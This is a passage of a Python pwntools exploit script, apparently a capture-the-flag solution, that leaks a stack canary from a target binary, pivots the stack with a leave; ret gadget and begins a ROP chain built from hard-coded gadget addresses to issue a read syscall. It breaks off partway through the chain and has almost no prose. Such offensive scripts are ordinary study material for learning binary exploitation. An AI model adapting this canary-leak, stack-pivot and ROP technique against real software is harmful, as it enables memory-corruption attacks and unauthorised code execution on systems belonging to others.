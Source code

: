 ```python
            b *cool_thing2+0xc7
            b *cool_thing2+225
            """
            gdb.attach(io, gdbscript=cmd)

    POP_RAX_RDX_RBX = 0x00000000004a3dca # : pop rax ; pop rdx ; pop rbx ; ret
    POP_RDX_RBX = 0x00000000004accc0 # : pop rdx ; pop rbx ; ret
    POP_RDI = 0x000000000040251f # : pop rdi ; ret
    POP_RSI = 0x000000000040a58e # : pop rsi ; ret
    LEAVE_RET = 0x0000000000401c6b # : leave ; ret
    SYSCALL_RET = 0x422ea6 

    # cool_things1
    io.sendlineafter(b"> ", f"{0xFFFF_FFFF_deadbeef} {0xFEFF_FFFF_deadbeef}".encode())

    """
    .text:0000000000401D23                 lea     rax, [rbp-0x30] <-- cool_thing+0xb6
    .text:0000000000401D27                 mov     edx, 0x40
    .text:0000000000401D2C                 mov     rsi, rax
    .text:0000000000401D2F                 mov     edi, 0
    .text:0000000000401D34                 call    read
    """
    p = b""
    p += p64(elf.symbols["anu"]+0x38) # will be pointing to our saved RIP (after stack pivoting)
    p += p64(elf.symbols["cool_thing2"]+0xb6)
    io.sendafter(b"?\n", p)
    
    # cool_things2
    io.sendlineafter(b"> ", f"{0xffff_ffff} {0xbf80_0000}".encode())
    
    # cool_things3
    io.sendlineafter(b"> ", f"{0.1} {0.2}".encode())

    io.recvuntil(b"need it...\n")
    STACK_CANARY = int(io.recvuntil(b"\n", drop=True).decode()) & 0xFF_FF_FF_FF_FF_FF_FF_FF
    print("STACK_CANARY                 :", hex(STACK_CANARY), STACK_CANARY )
    p = b""
    p += b"A"*8
    io.send(p)
    sleep(0.1)

    p = b""
    p += b"A"*0x28
    p += p64(STACK_CANARY)
    p += p64(elf.symbols["anu"])
    p += p64(LEAVE_RET)
    io.sendafter(b"?\n", p)

    # Register overview before executing this ROP
    # $rax = 0x40
    # $rdi = 0
    # $rsi = &anu+8
    # $rdx = &anu+8
    p = b""
    p += p64(POP_RAX_RDX_RBX) # rip
    p += p64(0) 
    p += p64(0x300)
    p += p64(0)
    p += p64(SYSCALL_RET)
    p = p.ljust(64, b"A")
    # Register overview after executing this ROP
    # $rax = 0
    # $rdi = 0
```